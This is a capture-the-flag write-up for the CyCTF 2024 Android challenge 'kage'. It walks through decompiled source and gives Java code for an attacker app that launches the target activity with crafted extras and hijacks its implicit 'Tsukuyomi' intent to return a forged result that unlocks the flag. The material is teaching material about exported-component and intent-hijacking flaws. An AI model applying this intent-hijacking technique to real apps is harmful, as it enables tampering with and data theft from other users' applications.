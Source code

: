 ```yaml
---
title: "Mobile: kage"
date: "2024-11-03"
tags:
    - android
thumbnail: "/assets/img/thumbnail/cyctf2024.png"
---
```



# solution
---
We are given in this challenge 2 APKs the main challenge is the sealing version of the apk with the real flag and the second one is the fake version with the fake flag used for testing.
The fake version contains a fake flag, but once u get the approach and get the flag you can use the same approach to get the real flag from the sealing app.

I got the source code using `Jadx`.
First thing i do usually is looking in `AndroidMainfest.xml` file.
<img src="/assets/img/cyctf qual 24/capture5.png">
In this challenge the MainActivity is the interesting part and has all what we need to solve the challenge, Let's look at it.
```java
package com.cyctf.kage;

import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.ImageView;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        if (getIntent() != null && "Secret_Action".equals(getIntent().getAction())) {
            Intent intent = new Intent("Tsukuyomi");
            try {
                Toast.makeText(this, "Be Careful, Something was sent to you", 1).show();
                startActivityForResult(intent, 1337);
                return;
            } catch (Exception e) {
                e.printStackTrace();
                Toast.makeText(this, "No App Can Handle My Shadow!!", 1).show();
                return;
            }
        }
        Toast.makeText(this, "Invalid action!.", 1).show();
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, android.app.Activity
    public void onActivityResult(int i, int i2, Intent intent) {
        super.onActivityResult(i, i2, intent);
        ImageView myImageView = (ImageView) findViewById(R.id.imageView);
        if (intent != null && getIntent() != null && getIntent().getBooleanExtra("Unlock", false) && intent.getIntExtra("RegistrationNumber", -1) == 5192) {
            myImageView.setImageResource(R.drawable.image);
            Toast.makeText(this, "Check Logs For Your Reward!!", 1).show();
            Log.d("Jester", new String("Cyctf{Fake_Flag_don't_Submit}"));
        }
    }
}
```
We have `onCreate` function at which
- This activity is started by intent whose action is `Secret_Action`
- Then if the previous condition is true, a new intent is created whose action is `Tsukuyomi` and this new intent is used to send the start activity using `startActivityForResult(intent, 1337)`
- `startActivityForResult()`: can start activity and also expects a response from the activity it started, It receives this response through `onActivityResult()`
> Note: The response sent by us is sent through `setResult(RESULT_OK,intent)`
- We see in the code `onActivityResult(int i, int i2, Intent intent)` which accepts the response as we said and it sends the flag if the condition `(intent != null && getIntent() != null && getIntent().getBooleanExtra("Unlock", false) && intent.getIntExtra("RegistrationNumber", -1) == 5192)` is true
- This condition has
    - `intent` which is the parameter to `onActivityResult()` function and it's sent by us through `setResult()` function
    - `getIntent()` which is first intent we used to start this application whose action is `Secret_Action`

So our approach to solve the challenge will be
<img src="/assets/img/cyctf qual 24/capture6.png">
Creating an application which will do the following
- sending an intent with `action: Secret_Action` (to trigger the condition in onCreate function) and extra bool data `Unlock: true` (to trigger the condition in onActivityResult)

```java
Intent intent = new Intent("Secret_Action");
intent.setClassName("com.cyctf.kage","com.cyctf.kage.MainActivity");
intent.putExtra("Unlock",true);
startActivity(intent);
```
The code above in the MainActivity of the app we created
- The target's MainActivity starts and creates an intent whose `action: Tsukuyomi` and sends it using `startActivityForResult(intent, 1337);`
- We will receive it by having an application with intent filter to accept intent whose `action: Tsukuyomi`

```java
<activity
    android:name=".Hijack"
    android:exported="true">
    <intent-filter>
        <action android:name="Tsukuyomi" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
Above is the intent filter of the activity we used to receive the intent whose `action: Tsukuyomi`
> Note: hijack activity is another activity other than the MainActivity of our app
- Then after receiving this intent, create an intent with extra Int data `RegistrationNumber: 5192`
- Send this intent using `setResult` function as response to the target
```java
public class Hijack extends AppCompatActivity {
    
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_hijack);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

            Intent resultIntent = new Intent();
            resultIntent.putExtra("RegistrationNumber", 5192);
            setResult(RESULT_OK,resultIntent);
            finish();
        }
    }
```

- This intent will be received by the target through `onActivityResult` and will trigger the condition to log the flag 
- Watch the logs after running the app.
<img src="/assets/img/cyctf qual 24/capture7.png">
GG, I wish you enjoyed the write up